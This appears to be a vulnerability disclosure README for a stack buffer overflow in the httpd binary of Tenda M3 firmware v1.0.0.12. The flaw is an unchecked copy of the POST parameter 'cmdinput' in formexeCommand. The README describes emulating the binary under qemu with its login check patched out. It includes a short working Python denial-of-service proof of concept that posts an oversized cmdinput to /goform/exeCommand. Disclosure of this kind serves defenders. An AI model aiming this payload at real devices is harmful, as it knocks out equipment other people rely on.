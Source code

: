 # Tenda M3 contains Stack buffer Overflow Vulnerability

## overview

- type: stack buffer overflow vulnerability

- supplier: Tenda https://www.tenda.com 

- product: TendaM3 https://www.tenda.com.cn/product/M3.html

- firmware download:   https://www.tenda.com.cn/download/detail-3133.html

- affect version: TendaM3 v1.0.0.12(4856)

## Description

### 1. Vulnerability Details

the `httpd` in directory `/bin` has a stack buffer overflow. The vunlerability is in fucntion `formexeCommand` 

![image-20220818231337695](readme.assets/image-20220818231337695.png)

In this function, is copies POST parameter `cmdinput` to stack buffer without checking its length, causing a stack buffer overflow vulnerability. 

### 2. Recurring loopholes and POC

use qemu-arm-static to run the `httpd`, we need to patch it before run. 

- in `main` function, The `ConnectCfm` function didn’t work properly, so I patched it to `NOP` 
- The `R7WebsSecurityHandler` function is used for permission control, and I've modified it to access URLs that can only be accessed after login

poc of DOS(deny of service)

```python
import requests

data = {
    "cmdinput": "a"*0x400
}
cookies = {
    "user": "admin"
}
res = requests.post("http://127.0.0.1/goform/exeCommand", data=data, cookies=cookies)
print(res.content)
```

![image-20220818232005637](readme.assets/image-20220818232005637.png)

